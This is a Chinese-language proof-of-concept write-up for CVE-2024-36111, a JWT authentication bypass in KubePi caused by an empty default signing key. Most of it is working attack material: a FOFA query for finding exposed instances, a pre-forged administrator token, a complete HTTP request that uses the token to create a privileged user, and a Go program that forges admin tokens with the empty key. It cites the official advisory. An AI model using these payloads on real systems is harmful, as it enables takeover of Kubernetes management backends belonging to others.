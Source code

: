 # KubePi存在JWT验证绕过漏洞(CVE-2024-36111)

kubepi jwttoken 校验存在缺陷，默认配置文件中jwt密钥为空，虽然读取配置文件相关逻辑中检测到密钥为空时，会生成一个随机32位字符串覆盖配置文件中的密钥，但是实际校验时，密钥为空，使用空密钥生成jwttoken可绕过登录校验，可直接接管后台

## fofa

```java
"kubepi"
```

## poc

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302144253.png)

使用空密钥生成jwt token 

```java
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfSwiaWF0IjoxNzE2NDQ3MDEyLCJleHAiOjE3MjI0NDcwMTJ9.dedNLwXZu0JY1sgGBCRZmpFvAnLdHjxdPmKWXA7LCf4
```

使用生成的密钥创建用户tang

```java
POST /kubepi/api/v1/users HTTP/1.1
Host: 127.0.0.1:9982
Content-Length: 248
sec-ch-ua: 
Accept: application/json, text/plain, */*
lang: zh-CN
Content-Type: application/json
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.199 Safari/537.36
sec-ch-ua-platform: ""
Origin: http://127.0.0.1:9982
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:9982/kubepi/user-management/users/create
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJuYW1lIjoiYWRtaW4iLCJuaWNrTmFtZSI6IkFkbWluaXN0cmF0b3IiLCJlbWFpbCI6InN1cHBvcnRAZml0MmNsb3VkLmNvbSIsImxhbmd1YWdlIjoiemgtQ04iLCJyZXNvdXJjZVBlcm1pc3Npb25zIjp7fSwiaXNBZG1pbmlzdHJhdG9yIjp0cnVlLCJtZmEiOnsiZW5hYmxlIjpmYWxzZSwic2VjcmV0IjoiIiwiYXBwcm92ZWQiOmZhbHNlfSwiaWF0IjoxNzE2NDQ3MDEyLCJleHAiOjE3MjI0NDcwMTJ9.dedNLwXZu0JY1sgGBCRZmpFvAnLdHjxdPmKWXA7LCf4
Connection: close

{"apiVersion":"v1","kind":"User","name":"tang","roles":["Common User","Manage Image Registries","Manage Clusters","Manage RBAC"],"nickName":"tang","email":"tang@qq.com","authenticate":{"password":"12345678@Tang"},"mfa":{"enable":false,"secret":""}}
```

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302142936.png)

![image](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407302142055.png)

## 生成jwt token程序

```go
package main

import (
	"fmt"
	"github.com/kataras/iris/v12/middleware/jwt"
	"time"
)

var jwtMaxAge = 100000 * time.Minute

type UserProfile struct {
	Name                string              `json:"name"`
	NickName            string              `json:"nickName"`
	Email               string              `json:"email"`
	Language            string              `json:"language"`
	ResourcePermissions map[string][]string `json:"resourcePermissions"`
	IsAdministrator     bool                `json:"isAdministrator"`
	Mfa                 Mfa                 `json:"mfa"`
}

type Mfa struct {
	Enable   bool   `json:"enable"`
	Secret   string `json:"secret"`
	Approved bool   `json:"approved"`
}

func main() {
	jwtSigner := jwt.NewSigner(jwt.HS256, "", jwtMaxAge)
	test := map[string][]string{}
	profile := UserProfile{
		Name:                "admin",
		NickName:            "Administrator",
		Email:               "support@fit2cloud.com",
		Language:            "zh-CN",
		ResourcePermissions: test,
		IsAdministrator:     true,
		Mfa: Mfa{
			Secret:   "",
			Enable:   false,
			Approved: false,
		},
	}
	nonejwt, _ := jwtSigner.Sign(profile)
	fmt.Println(string(nonejwt))
}

```

## 漏洞来源

- https://github.com/1Panel-dev/KubePi/security/advisories/GHSA-8q5r-cvcw-4wx7